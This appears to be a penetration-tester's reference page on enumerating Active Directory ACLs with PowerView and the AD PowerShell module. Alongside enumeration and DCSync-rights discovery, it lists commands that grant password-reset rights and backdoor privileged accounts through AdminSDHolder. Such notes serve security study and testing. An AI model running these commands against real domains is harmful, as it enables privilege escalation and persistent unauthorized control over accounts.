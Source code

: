 ```yaml
---
title: "Domain ACLs"
description: "Enumerating domain ACLs."
lead: "Enumerating information about domain ACLs using the ActiveDirectory PowerShell module and PowerView."
date: 2021-11-07T18:09:32+01:00
lastmod: 2021-11-07T18:09:32+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_enumeration"
weight: 60
toc: true
---
```


## General

- Access Control Entries (ACE) correspond to individual permission or audits access
- Who has permission and what can be done on an object?
- Two types:
  - DACL -> Defines the permissions trustees (a user or group) have on an object
  - SACL - Logs success and failure audit messages when an object is accessed

## Enumerate ACLs without resolving GUIDs

```powershell
# AD Module
(Get-ACL 'CN=Domain Admins,CN=Users,DC=dc01,DC=dc02,DC=local').Access
```

## Get the ACLs associated with the specified Object

```powershell
# PowerView
Get-ObjectACL -SamAccountName "Users" -ResolveGUIDs
```

## Get the ACLs associated with the specified Prefix to be used for Search

```powershell
# PowerView
Get-ObjectACL -ADSPrefix 'CN=Administrator,CN=Users' -Verbose
```

## Get the ACLs associated with the specified LDAP Path to be used for Search

```powershell
# PowerView
Get-ObjectACL -ADSPath "LDAP://CN=Domain Admins,CN=Users,DC=dc01,DC=dc02,DC=local" -ResolveGUIDs -Verbose
```

## Search for interesting ACEs

```powershell
# PowerView
Invoke-ACLScanner -ResolveGUIDs
```

## Get the ACLs associated with the specified Path

```powershell
# PowerView
Get-PathACL -Path "\\dc01.lab.local\sysvol"
```

## Enumerate who has Rights to the 'matt' User in 'testlab.local', resolving Rights GUIDs to Names

```powershell
# PowerView
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```

## Grant User 'will' the Rights to change 'matt's Password

```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

## Audit the Permissions of AdminSDHolder, resolving GUIDs

```powershell
# PowerView
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```

## Backdoor the ACLs of all privileged Accounts with the 'matt' Account through AdminSDHolder Abuse

```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```

## Retrieve *most* Users who can perform DC Replication for dev.testlab.local (i.e. DCsync)

```powershell
# PowerView
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```

## Enumerate Permissions for GPOs where Users with RIDs of > -1000 have some kind of Modification/Control Rights

```powershell
# PowerView
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```
